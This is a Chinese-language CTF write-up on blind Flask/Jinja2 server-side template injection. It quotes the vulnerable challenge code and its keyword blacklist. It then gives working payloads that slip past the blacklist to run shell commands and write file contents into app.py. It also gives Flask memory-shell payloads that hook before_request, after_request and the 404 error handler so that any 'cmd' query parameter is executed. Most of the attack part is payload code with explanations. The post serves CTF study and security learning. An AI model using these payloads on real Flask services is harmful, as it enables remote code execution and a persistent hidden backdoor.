# 对ssti无回显的新版内存马学习-先知社区

> **来源**: https://xz.aliyun.com/news/16224  
> **文章ID**: 16224

---

昨天打国赛遇见一个无回显ssti的题目，顺便学习了一下  
源码：

```
from flask import Flask, request, render_template_string
import socket
import threading
import html

app = Flask(__name__)


@app.route('/', methods=["GET"])
def source():
    with open(__file__, 'r', encoding='utf-8') as f:
        return '<pre>' + html.escape(f.read()) + '</pre>'


@app.route('/', methods=["POST"])
def template():
    template_code = request.form.get("code")
    # 安全过滤
    blacklist = ['__', 'import', 'os', 'sys', 'eval', 'subprocess', 'popen', 'system', '\r', '\n']
    for black in blacklist:
        if black in template_code:
            return "Forbidden content detected!"
    result = render_template_string(template_code)
    print(result)
    return 'ok' if result is not None else 'error'


class HTTPProxyHandler:
    def __init__(self, target_host, target_port):
        self.target_host = target_host
        self.target_port = target_port

    def handle_request(self, client_socket):
        try:
            request_data = b""
            while True:
                chunk = client_socket.recv(4096)
                request_data += chunk
                if len(chunk) < 4096:
                    break

            if not request_data:
                client_socket.close()
                return

            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as proxy_socket:
                proxy_socket.connect((self.target_host, self.target_port))
                proxy_socket.sendall(request_data)

                response_data = b""
                while True:
                    chunk = proxy_socket.recv(4096)
                    if not chunk:
                        break
                    response_data += chunk

            header_end = response_data.rfind(b"\r\n\r\n")
            if header_end != -1:
                body = response_data[header_end + 4:]
            else:
                body = response_data

            response_body = body
            response = b"HTTP/1.1 200 OK\r\n" \
                       b"Content-Length: " + str(len(response_body)).encode() + b"\r\n" \
                                                                                b"Content-Type: text/html; charset=utf-8\r\n" \
                                                                                b"\r\n" + response_body

            client_socket.sendall(response)
        except Exception as e:
            print(f"Proxy Error: {e}")
        finally:
            client_socket.close()


def start_proxy_server(host, port, target_host, target_port):
    proxy_handler = HTTPProxyHandler(target_host, target_port)
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind((host, port))
    server_socket.listen(100)
    print(f"Proxy server is running on {host}:{port} and forwarding to {target_host}:{target_port}...")

    try:
        while True:
            client_socket, addr = server_socket.accept()
            print(f"Connection from {addr}")
            thread = threading.Thread(target=proxy_handler.handle_request, args=(client_socket,))
            thread.daemon = True
            thread.start()
    except KeyboardInterrupt:
        print("Shutting down proxy server...")
    finally:
        server_socket.close()


def run_flask_app():
    app.run(debug=False, host='127.0.0.1', port=5000)


if __name__ == "__main__":
    proxy_host = "0.0.0.0"
    proxy_port = 5001
    target_host = "127.0.0.1"
    target_port = 5000

    # 安全反代，防止针对响应头的攻击
    proxy_thread = threading.Thread(target=start_proxy_server, args=(proxy_host, proxy_port, target_host, target_port))
    proxy_thread.daemon = True
    proxy_thread.start()

    print("Starting Flask app...")
    run_flask_app()

```

可以看见有黑名单：

```
blacklist = ['__', 'import', 'os', 'sys', 'eval', 'subprocess', 'popen', 'system', '\r', '\n']

```

## 写文件

第一种方法就是传统的绕过黑名单，采用拼接的方法  
请看payload：

```
code={%25set+gl%3d'_'*2%2b'globals'%2b'_'*2%25}{%25set+bu%3d'_'*2%2b'builtins'%2b'_'*2%25}{%25set+im%3d'_'*2%2b'i''mport'%2b'_'*2%25}{%25set+hc%3d'so'[%3a%3a-1]%25}{{g.pop[gl][bu][im](hc)['p''open']('cat+/f*>>app.py').read()}}

url解码后是这个样子的：
code={{g.pop[gl][bu][im](hc)['p''open']('cat+/f*>>app.py').read()}}

```

它使用了 Jinja2 的  语句来创建变量，并且通过这些变量来访问和操作 Python 的全局环境 (globals) 和内置函数 (builtins)

```
 //用于在模板中设置变量。

'_'*2+'globals'+'_'*2 //用来构造字符串 __globals__ 和 __builtins__

'_'*2+'import'+'_'*2 //试图构造字符串 __import__

'so'[::-1] //将字符串 'so' 反转为 'os'

g.pop[gl][bu][im](hc)['p''open']('cat+/f*>>app.py').read() //这部分代码从 globals 获取 __builtins__.__import__ 函数，然后用它来导入 os 模块，并调用 os.popen 来执行 shell 命令 cat /f*>>app.py，这会将根目录下所有以 f 开头的文件内容追加到 app.py 文件中。

```

  
访问首页发现成功写入  
  
还可以对首页进行覆盖 payload:

```
{%25set+gl%3d''*2%2b'globals'%2b''*2%25}{%25set+bu%3d''*2%2b'builtins'%2b''*2%25}{%25set+im%3d''*2%2b'i''mport'%2b''*2%25}{%25set+mx%3d'so'[%3a%3a-1]%25}{{cycler.next[gl][bu]im'p''open'('ls+/>>app.py').read()}}

```

  
访问首页  


# 内存马

测试代码：

```
from flask import Flask, request, render_template_string
import socket
import threading
import html

app = Flask(__name__)


@app.route('/', methods=["GET"])
def source():
    with open(__file__, 'r', encoding='utf-8') as f:
        return '<pre>' + html.escape(f.read()) + '</pre>'


@app.route('/', methods=["POST"])
def template():
    template_code = request.form.get("code")
    # 安全过滤
   # blacklist = ['__', 'import', 'os', 'sys', 'eval', 'subprocess', 'popen', 'system', '\r', '\n']
   #  for black in blacklist:
   #      if black in template_code:
   #          return "Forbidden content detected!"
    result = render_template_string(template_code)
    print(result)
    return 'ok' if result is not None else 'error'


class HTTPProxyHandler:
    def __init__(self, target_host, target_port):
        self.target_host = target_host
        self.target_port = target_port

    def handle_request(self, client_socket):
        try:
            request_data = b""
            while True:
                chunk = client_socket.recv(4096)
                request_data += chunk
                if len(chunk) < 4096:
                    break

            if not request_data:
                client_socket.close()
                return

            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as proxy_socket:
                proxy_socket.connect((self.target_host, self.target_port))
                proxy_socket.sendall(request_data)

                response_data = b""
                while True:
                    chunk = proxy_socket.recv(4096)
                    if not chunk:
                        break
                    response_data += chunk

            header_end = response_data.rfind(b"\r\n\r\n")
            if header_end != -1:
                body = response_data[header_end + 4:]
            else:
                body = response_data

            response_body = body
            response = b"HTTP/1.1 200 OK\r\n" \
                       b"Content-Length: " + str(len(response_body)).encode() + b"\r\n" \
                                                                                b"Content-Type: text/html; charset=utf-8\r\n" \
                                                                                b"\r\n" + response_body

            client_socket.sendall(response)
        except Exception as e:
            print(f"Proxy Error: {e}")
        finally:
            client_socket.close()


def start_proxy_server(host, port, target_host, target_port):
    proxy_handler = HTTPProxyHandler(target_host, target_port)
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_socket.bind((host, port))
    server_socket.listen(100)
    print(f"Proxy server is running on {host}:{port} and forwarding to {target_host}:{target_port}...")

    try:
        while True:
            client_socket, addr = server_socket.accept()
            print(f"Connection from {addr}")
            thread = threading.Thread(target=proxy_handler.handle_request, args=(client_socket,))
            thread.daemon = True
            thread.start()
    except KeyboardInterrupt:
        print("Shutting down proxy server...")
    finally:
        server_socket.close()


def run_flask_app():
    app.run(debug=False, host='127.0.0.1', port=5000)


if __name__ == "__main__":
    proxy_host = "0.0.0.0"
    proxy_port = 5001
    target_host = "127.0.0.1"
    target_port = 5000

    # 安全反代，防止针对响应头的攻击
    proxy_thread = threading.Thread(target=start_proxy_server, args=(proxy_host, proxy_port, target_host, target_port))
    proxy_thread.daemon = True
    proxy_thread.start()

    print("Starting Flask app...")
    run_flask_app()

```

## 使用before\_request方法构造内存马

before\_request 是 Flask 框架中的一个方法，它允许你在每次 HTTP 请求到达视图函数之前执行特定的代码

```
from flask import Flask, request, g

app = Flask(__name__)

@app.before_request
def before_request():
    # 这里的代码将在每个请求处理之前执行
    g.start_time = time.time()  # 记录请求开始的时间
    print("This runs before each request.")

@app.route('/')
def index():
    # 这是处理主页请求的视图函数
    return "Hello, World!"

if __name__ == '__main__':
    app.run()

```

在这个例子中，before\_request 函数会在每个请求到来前被调用，并且会打印一条消息到控制台  


跟进这个装饰器内部看他调用了哪些函数:

  
可以看到before\_request实际上调用的是self.before\_request\_funcs.setdefault(None, []).append(f)  
代码逻辑：

```
self.before_request_funcs.setdefault(None, []): before_request_funcs 是一个字典，用来存储不同蓝图（或应用程序级别）的 before_request 函数列表。setdefault 方法确保了当键 None 不存在时，会创建一个空列表作为其值。这里 None 代表应用级别的 before_request 函数。
.append(f): 将传入的函数 f 添加到 before_request 函数列表中，这意味着该函数会在每个请求开始前被执行。f就是访问值，也是我们可以自定义的，那么这里只要我们设置f为一个匿名函数，这样每次发起请求前，都会触发一个这个匿名函数了
return f: 返回原始函数 f，这使得装饰器可以用作函数修饰，而不会改变函数本身的行为。
```

接下来就可以开始构造了

```
{{url_for.__globals__['__builtins__']['eval']("__import__('sys').modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None,[]).append(lambda+:__import__('os').popen('dir').read())")}}

```





## after\_request方法构造内存马

  
与@app.before\_request类似，after\_request会在请求结束得到响应包之后进行操作  
代码逻辑：

```
self.after_request_funcs.setdefault(None, []): after_request_funcs 是一个字典，用来存储不同蓝图（或应用程序级别）的 after_request 函数列表。setdefault 方法确保了当键 None 不存在时，会创建一个空列表作为其值。这里 None 代表应用级别的 after_request 函数。
.append(f): 将传入的函数 f 添加到 after_request 函数列表中，这意味着该函数会在每个请求处理完成后被执行。
return f: 返回原始函数 f，这使得装饰器可以用作函数修饰，而不会改变函数本身的行为。
self.after_request_funcs.setdefault(None, []).append(f)传入的f就是对应的自定义函数，但这里的f需要接收一个response对象，同时返回一个response对象，所以这个是需要定义一个返回值的
```

构造payload：

```
{{url_for.__globals__['__builtins__']['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())\")==None else resp)",{'request':url_for.__globals__['request'],'app':url_for.__globals__['current_app']})}}

```

Lambda 函数逻辑：

```
条件检查：if request.args.get('cmd') 检查请求的查询字符串中是否存在名为 cmd 的参数。
命令执行：如果 cmd 参数存在，那么使用 exec 执行一段 Python 代码，这段代码会读取并执行 cmd 参数中的命令，并将输出封装进一个新的 Flask Response 对象 CmdResp 中。
    exec('global CmdResp;CmdResp=make_response(os.popen(request.args.get("cmd")).read())')
    注意这里的 os.popen 和 exec 的使用，它们分别用于执行命令和动态执行 Python 代码。
返回值判断：== None 检查 exec 的返回值是否为 None（实际上 exec 总是返回 None）。
最终返回：如果上述条件成立（即 cmd 参数存在且命令成功执行），则返回新的响应对象 CmdResp；否则返回原始的响应对象 resp。
```





## errorhandler方法构造内存马

```
from flask import Flask, render_template

app = Flask(__name__)
@app.route('/')
def index():
    return 'Hello World'

@app.errorhandler(404)
def page_not_found(e):
    print(e)
    # 日志记录或其它处理逻辑
    print('Error handler for 404')
    return '404 Error'

if __name__ == '__main__':
    app.run()

```

当用户请求了一个不存在的 URL 时，Flask 会调用 page\_not\_found 函数，要是我能操控404页面返回的东西，那不就可以执行任意代码了吗  
跟进errorhandler

  
跟进register\_error\_handler函数

  
可以看到exc\_class, code这两个变量，code就是404，exc\_class是一个对象，f是我们404界面的返回值  
code和f是我们可以手动构造的，但是exc\_class得通过\_get\_exc\_class\_and\_code函数获取，code\_or\_exception就是我们之前传的404，那我们就依靠这个来获取变量值，然后覆写即可  
下面是一个不需要装饰器，直接使用 register\_error\_handler 方法来注册错误处理程序的例子：

```
from flask import Flask

app = Flask(__name__)

# 定义一个简单的错误处理程序
def handle_404(e):
    return 'Page not found', 404

def handle_exception(e):
    return 'An unexpected error occurred', 500

# 注册错误处理程序
app.register_error_handler(404, handle_404)
app.register_error_handler(Exception, handle_exception)

if __name__ == '__main__':
    app.run()

```

如果你多次对同一个 code\_or\_exception 使用 register\_error\_handler 方法，后面的调用会覆盖前面的注册。  
payload:

```
exec("global exc_class;global code;exc_class, code = app._get_exc_class_and_code(404);app.error_handler_spec[None][code][exc_class] = lambda a:__import__('os').popen(request.args.get('cmd')).read()")

```

payload解读：

```
global exc_class; global code:
这一部分声明 exc_class 和 code 为全局变量。确保 exc_class 和 code 在后续代码中可以被正确引用。

exc_class, code = app._get_exc_class_and_code(404):
这行代码调用了 Flask 应用实例 app 的私有方法 _get_exc_class_and_code，传入 HTTP 状态码 404。该方法会返回与状态码 404 相关的异常类 (exc_class) 和状态码 (code)。

app.error_handler_spec[None][code][exc_class] = lambda a: __import__('os').popen(request.args.get('cmd')).read():
这里最关键的部分：
    app.error_handler_spec 是 Flask 内部用来存储错误处理程序的数据结构。
    lambda a: __import__('os').popen(request.args.get('cmd')).read() 创建了一个匿名函数（Lambda），它接收一个参数 a（通常是异常对象），但忽略了这个参数。
    它导入了 os 模块，并调用了 popen 方法来执行由 request.args.get('cmd') 获取的命令。request.args.get('cmd') 从 HTTP 请求的查询参数中获取名为 cmd 的值，这意味着任何通过 URL 参数传入的命令都会被执行。
    最后，.read() 方法读取命令执行的结果并返回。
```
